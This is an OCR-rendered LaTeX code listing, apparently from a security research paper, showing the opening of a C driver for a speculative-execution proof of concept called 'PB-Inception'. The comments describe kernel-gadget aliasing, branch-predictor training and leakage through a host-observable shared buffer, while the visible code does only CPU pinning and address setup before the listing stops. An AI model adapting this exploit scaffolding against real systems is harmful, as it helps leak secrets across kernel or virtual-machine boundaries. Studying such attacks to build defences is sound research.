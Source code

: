 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=C,caption={User-space driver for PB-Inception: wires sysfs, builds aliasing trampolines, provisions slow predicate, and triggers the IBPB boundary via \texttt{pbinc\_entry()}.},label={lst:driver}]
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <sched.h> // For CPU pinning
#include <unistd.h>
#include <errno.h>

#define TRAMPOLINE_COUNT 64 // Number of speculative callsite trampolines

// Extern symbols from the ASM file and trampoline builder
extern uint64_t __pbinc_kernel_gadget_addr;    // Kernel gadget VA (to alias against)
extern uint64_t __pbinc_probe_shared;          // SHARED (C-bit=0) buffer (host-observable)
extern uint64_t __alias_tbl[TRAMPOLINE_COUNT]; // Callsite trampoline table (filled at runtime)
extern uint64_t __slow_predicate_ptr;          // Cold memory to delay branch resolution

// Provided by trampoline.c -> builds the aliasing callsite trampolines
void *pbinc_create_trampolines(uint64_t gadget_addr);

// Provided by pbinc.asm -> the speculative training -> syscall -> spin harness
void pbinc_entry(void);

// Reads a hex value from a sysfs-style file (e.g. /sys/kernel/pbinc/gaddr)
static uint64_t read_hex(const char *path) {
    FILE *f = fopen(path, "r");
    if (!f) { 
        perror(path); exit(1); // Abort if file can't be opened
    }
    unsigned long long x = 0;
    if (fscanf(f, "%llx", &x) != 1) {
        fprintf(stderr, "parse %s failed\n", path); exit(1); // Failed to parse hex
    }
    fclose(f);
    return x; // Return parsed 64-bit value
}

int main(int argc, char **argv) {
    if (argc < 2) {
        // Expect SHARED buffer guest-virtual address (GVA) as argument
        fprintf(stderr, "usage: %s <guest-VA-of-SHARED-probe-hex>\n", argv[0]);
        return 2;
    }

    ////////////////////////////////////////////
    // 1. Pin to specific CPU core -> stability
    ////////////////////////////////////////////
    cpu_set_t set; CPU_ZERO(&set); CPU_SET(0, &set);
    sched_setaffinity(0, sizeof(set), &set); // Enforce CPU affinity for PoC repeatability

    ////////////////////////////////////////////
    // 2. Patch runtime addresses from sysfs / CLI
    ////////////////////////////////////////////
    // Load kernel gadget virtual address from module sysfs (e.g. /sys/kernel/pbinc/gaddr)
    __pbinc_kernel_gadget_addr = read_hex("/sys/kernel/pbinc/gaddr");


\end{lstlisting}
\end{document}
